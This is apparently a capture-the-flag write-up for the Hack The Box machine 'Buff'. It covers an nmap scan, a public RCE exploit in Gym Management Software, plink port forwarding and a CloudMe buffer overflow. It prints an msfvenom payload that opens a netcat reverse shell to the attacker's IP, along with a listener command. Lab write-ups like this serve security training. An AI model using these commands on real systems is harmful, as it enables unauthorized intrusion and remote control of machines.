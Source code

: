 # Buff

`nmap -T4 -O -A -sV -p- -sS -Pn -n -vvv -oA scan1 10.10.10.198`
![](1.png)

`http://10.10.10.198:8080/`

![](2.png)

*Now if you go to the About section of the website then youll find that it is created using Gym management software 1.0*

![](3.png)

*After googling the software version i found a RCE vulneraility in the system. the exploit of the vulnerability is uploaded on exploit-db*

![](4.png)

*I downloaded it and executed it as shown further and i got a reverse shell of the machine*
![](5.png)

**Here we get the user flag**


*Now we need to get a command shell of the machine , so in order to  get a command line shell we need to upload following exe files
NETCAT : TO GET A REVERSE SHELL
PLINK : TO PORT FORWARD*

![](6.png)
![](7.png)
![](8.png)
![](9.png)

**Now getting root flag..**


*If you enumerate more in the machine then in the Download folder you  will get a exe file `Cloudme1.11.2.exe` which represents that the version  is vulnerable to Buffer Overflow . We have a exploit for that verision  on exploit-db 
Now we need to Port forward the ip of the machine using plink which we alraedy uploaded on the machine
so lets upload using following command :* 

`plink1.exe -l prof3ssor -pw toor 10.10.14.96 -R 8888:127.0.0.1:8888`

![](10.png)
![](11.png)

Now we need to do some changes in our 48389 exploit , just copy the  output of the following metasploit payload and replace it to 48389  exploits buffer codes
The metasploit payload : `msfvenom -p windows/exec  CMD=’c;\xampp\htdocs\gym\upload\nc.exe -e cmd.exe 10.10.14.96 4444′ -b  ‘\x00\x0a\x0d’ -f py -v payload` 

![](12.png)

*Now start a netcat listner as nc -lnvp 4444 and on the second terminal exeute the payload as follows :*

![](13.png)
 *we got the root privilege in the system Now lets find the root flag .*